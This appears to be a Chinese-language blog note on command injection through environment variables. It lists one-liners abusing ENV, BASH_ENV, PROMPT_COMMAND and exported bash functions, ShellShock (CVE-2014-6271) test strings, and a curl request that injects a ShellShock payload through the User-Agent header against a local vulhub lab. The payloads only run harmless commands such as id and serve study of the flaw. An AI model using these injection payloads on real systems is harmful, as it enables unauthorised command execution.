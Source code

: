 ```yaml
---
title: "环境变量相关问题"
slug: "smth-about-env-variables"
description: "属于是漏洞界的当红炸子鸡（老油条），再不学就赶不上热乎的了"
date: 2022-03-23T18:33:39+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["环境变量", "RCE"]
draft: false
toc: true
---
```


## 普通环境变量

[我是如何利用环境变量注入执行任意命令](https://tttang.com/archive/1450/)

```bash
ENV='$(id 1>&2)' dash -i -c 'echo hello'
BASH_ENV='$(id 1>&2)' bash -c 'echo hello'
ENV='$(id 1>&2)' sh -i -c "echo hello"
```

```bash
PROMPT_COMMAND='id' bash	# 执行命令后给出交互shell debian无
```

```bash
env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'	# bash 4.4及以后
env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"	# bash 4.4以前
```

### ShellShock / CVE-2014-6271

[ShellShock漏洞回顾与分析测试](https://wooyun.js.org/drops/Shellshock%E6%BC%8F%E6%B4%9E%E5%9B%9E%E9%A1%BE%E4%B8%8E%E5%88%86%E6%9E%90%E6%B5%8B%E8%AF%95.html)  |  [复现 - vulhub](https://github.com/vulhub/vulhub/blob/master/bash/shellshock/README.zh-cn.md)

应用于bash 4.3及以前

```bash
$ env TEST='() { :; };' id;
```

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

![image-20220323180512946](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220323180512946.png)

对于vulhub的环境，还可以在UA头注入

```bash
$ curl -H 'User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id'  http://127.0.0.1:8080/victim.cgi -i
```
